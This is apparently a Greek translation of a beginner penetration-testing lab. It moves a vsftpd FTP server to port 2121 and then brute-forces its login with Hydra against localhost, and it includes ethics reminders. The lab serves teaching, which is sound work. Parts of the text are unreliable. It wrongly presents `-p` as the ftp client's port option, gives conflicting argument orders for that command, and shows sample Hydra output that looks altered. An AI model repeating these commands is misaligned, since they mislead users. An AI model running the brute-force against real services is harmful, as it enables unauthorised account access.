 
# Διαμόρφωση FTP σε Μη-Τυπική Θύρα (Customize Hydra Port Numbers - Μετάφραση)

Σε αυτό το εργαστήριο θα μάθετε πώς να **προσαρμόζετε τον αριθμό θύρας FTP** σε ένα στόχο και στη συνέχεια να χρησιμοποιήσετε το **Hydra** για να πραγματοποιήσετε επίθεση brute-force στην υπηρεσία FTP στη ρυθμισμένη μη-τυπική θύρα. Αυτή η δεξιότητα είναι πολύτιμη για penetration testers και επαγγελματίες ασφάλειας που πρέπει να αξιολογήσουν συστήματα τα οποία έχουν ρυθμιστεί με μη-προεπιλεγμένες (non-standard) θύρες FTP.

---

## Περιγραφή εργαστηρίου (λεπτομερώς)

Το εργαστήριο περιλαμβάνει:

1. Την **επεξεργασία του αρχείου ρύθμισης `vsftpd.conf`** στο για να ακούει ο FTP server σε μη-τυπική θύρα (π.χ. 2121 αντί για 21).
2. Επανεκκίνηση της υπηρεσίας FTP για να εφαρμοστούν οι αλλαγές.
3. Έλεγχο με `netstat` για επιβεβαίωση ότι ο `vsftpd` ακούει στη νέα θύρα.
4. Χρήση του **Hydra** με την επιλογή `-s` για να καθοριστεί η προσαρμοσμένη θύρα και εκτέλεση επίθεσης brute-force κατά της υπηρεσίας FTP σε αυτή τη θύρα.

> Αυτό είναι ένα *Guided Lab*: παρέχονται βήμα-βήμα οδηγίες για να εξασκηθείτε πρακτικά. Το εργαστήριο χαρακτηρίζεται ως **beginner** και έχει υψηλό ποσοστό ολοκλήρωσης και θετικές κριτικές.

---

## Βήμα 1 — Διαμόρφωση του FTP σε μη-τυπική θύρα

Από προεπιλογή, το FTP χρησιμοποιεί τη θύρα **21**. Η αλλαγή της θύρας μειώνει τον κίνδυνο αυτοματοποιημένων επιθέσεων που στοχεύουν τη θύρα προεπιλογής.

Ανοίξτε το αρχείο ρυθμίσεων με τον επεξεργαστή `nano`:

```bash
sudo nano /etc/vsftpd.conf
```

Προσθέστε ή τροποποιήστε την ακόλουθη γραμμή:

```text
listen_port=2121
```

![Προσθήκη listen_port](https://file.labex.io/namespace/93459dab-5a0f-4725-a867-c2ce335286d8/hydra/lab-customize-hydra-port-numbers/en/../assets/20250402-14-41-46-oC0oyyD9.png)

Σημειώσεις:
- Αν η παράμετρος `listen_port` δεν υπάρχει, προσθέστε την — καλό είναι να την τοποθετήσετε κοντά στην κορυφή του αρχείου.
- Αποθηκεύστε και κλείστε πατώντας `Ctrl+X`, έπειτα `Y` και `Enter` για επιβεβαίωση.

Επανεκκινήστε την υπηρεσία `vsftpd`:

```bash
sudo service vsftpd restart
```

Επιβεβαιώστε ότι ο server ακούει στη νέα θύρα:

```bash
sudo netstat -tulnp | grep vsftpd
```

Παράδειγμα εξόδου που αναμένεται:

```
tcp6       0      0 :::2121                 :::*                    LISTEN      1027/vsftpd
```

![Έλεγχος θύρας FTP](https://file.labex.io/namespace/93459dab-5a0f-4725-a867-c2ce335286d8/hydra/lab-customize-hydra-port-numbers/en/../assets/20250402-14-39-54-KZnhSX20.png)

Αν δείτε την καινούργια θύρα στην έξοδο, ο FTP server ακούει σωστά στη θύρα `2121` (ή την θύρα που επιλέξατε).

---

## Βήμα 2 — Προσδιορισμός θύρας με τις επιλογές `ftp` vs `hydra`

Το command-line πρόγραμμα `ftp` και το εργαλείο `hydra` έχουν διαφορετικές επιλογές για να καθορίσουν τη θύρα:

- Η εντολή `ftp` χρησιμοποιεί την επιλογή `-p` για να καθορίσει τη θύρα:

  ```bash
  ftp -p localhost 2121
  ```

- Το `hydra` χρησιμοποιεί την επιλογή `-s` για να καθορίσει τη θύρα. Είναι σημαντικό να θυμάστε αυτή τη διαφορά όταν προετοιμάζεστε για την επίθεση Hydra.

Παράδειγμα (μη-εκτελεστικό, μόνο για επίδειξη σύνταξης):

```bash
hydra -l ftpuser -P ~/project/password.txt localhost ftp -s 2121
```

![Παράδειγμα σύνταξης Hydra](https://file.labex.io/namespace/93459dab-5a0f-4725-a867-c2ce335286d8/hydra/lab-customize-hydra-port-numbers/en/../assets/20250402-14-47-53-PB21qQvx.png)

Συμπέρασμα: Για σύνδεση FTP μέσω `ftp` χρησιμοποιούμε `-p`, ενώ για επιθέσεις με `hydra` χρησιμοποιούμε `-s`.

---

## Βήμα 3 — Εκτέλεση επίθεσης FTP με Hydra στη προσαρμοσμένη θύρα

Τώρα θα χρησιμοποιήσουμε το Hydra για να πραγματοποιήσουμε επίθεση brute-force στην υπηρεσία FTP που τρέχει στη μη-τυπική θύρα. Χρησιμοποιήστε το αρχείο λίστας κωδικών που δημιουργήσατε (π.χ. `~/project/password.txt`).

Εκτέλεση Hydra (αντικαταστήστε `localhost` με τη διεύθυνση IP του IonianCTF VM αν χρειάζεται):

```bash
hydra -l ftpuser -P ~/project/password.txt localhost ftp -s 2121 -vV
```

Ανάλυση παραμέτρων:
- `hydra`: το εργαλείο Hydra.
- `-l ftpuser`: συγκεκριμένο όνομα χρήστη προς επίθεση.
- `-P ~/project/password.txt`: αρχείο με πιθανές κωδικούς.
- `localhost`: στόχος (χρησιμοποιήστε IP αν χρειάζεται).
- `ftp`: υπηρεσία προς επίθεση.
- `-s 2121`: προσαρμοσμένη θύρα (σημαντικό).
- `-vV`: verbose / πολύ λεπτομερές output για να βλέπετε τις προσπάθειες σε πραγματικό χρόνο.

Παράδειγμα επιτυχίας:

```
[ATTACKER] attacking ftp://localhost:2121/
[2121][ftp] host: localhost   login: ftpuser   password: password123
```

Αν δεν βρεθεί σωστή τιμή, το Hydra θα δοκιμάσει όλες τις λέξεις στο αρχείο και θα τερματίσει χωρίς επιτυχή σύνδεση.

**Σημαντική υπενθύμιση ασφάλειας:** Αυτό το εργαστήριο είναι εκπαιδευτικό. Μην χρησιμοποιείτε Hydra ή άλλες τεχνικές brute-force σε συστήματα χωρίς ρητή άδεια — είναι παράνομο και ανήθικο.

---

## Βήμα 4 — Επικύρωση σύνδεσης στην σωστή θύρα μετά την επίθεση

Επιβεβαιώστε ότι μπορείτε ακόμη να συνδεθείτε στον FTP server μετά την επίθεση (για να βεβαιωθείτε ότι η υπηρεσία λειτουργεί κανονικά).

Χρήση του `ftp` με `-p`:

```bash
ftp -p 2121 localhost
```

Συνδεθείτε με τα διαπιστευτήρια που δημιουργήθηκαν κατά τη ρύθμιση (παράδειγμα):

- Username: `ftpuser`
- Password: `password123`

![Είσοδος FTP](https://file.labex.io/namespace/93459dab-5a0f-4725-a867-c2ce335286d8/hydra/lab-customize-hydra-port-numbers/en/../assets/20250402-14-44-11-q072m3Ri.png)

Αν δεν μπορείτε να συνδεθείτε, ελέγξτε:
- Η υπηρεσία `vsftpd` τρέχει (`sudo netstat -tulnp | grep vsftpd`).
- Το `/etc/vsftpd.conf` περιέχει `listen_port=2121` (ή την θύρα που επιλέξατε).
- Δεν υπάρχουν firewall κανόνες που μπλοκάρουν την πρόσβαση στην προσαρμοσμένη θύρα.
- Χρησιμοποιείτε τα σωστά διαπιστευτήρια.

Η επιτυχής σύνδεση επιβεβαιώνει ότι ο FTP server λειτουργεί στη προσαρμοσμένη θύρα και ότι η επίθεση Hydra (αν εκτελέστηκε) δεν διέκοψε την υπηρεσία.

---

## Περίληψη

Σ’ αυτό το εργαστήριο:
- Αλλάξατε τη θύρα που ακούει ο `vsftpd` προσθέτοντας `listen_port=2121` στο `/etc/vsftpd.conf`.
- Επανεκκινήσατε την υπηρεσία `vsftpd`.
- Επιβεβαιώσατε με `netstat -tulnp | grep vsftpd` ότι ο server ακούει στη θύρα `2121`.
- Μάθατε τη διαφορά σύνταξης: `ftp -p` (client) vs `hydra -s` (Hydra).
- Εκτελέσατε (ή προετοιμάσατε) μια επίθεση Hydra με `-s 2121`.
- Επικυρώσατε τη σύνδεση μετά την επίθεση.

---

> **Σημείωση δεοντολογίας:** Χρησιμοποιείτε τις τεχνικές του εργαστηρίου μόνο σε περιβάλλοντα όπου έχετε σαφή άδεια να δοκιμάζετε την ασφάλεια συστημάτων.


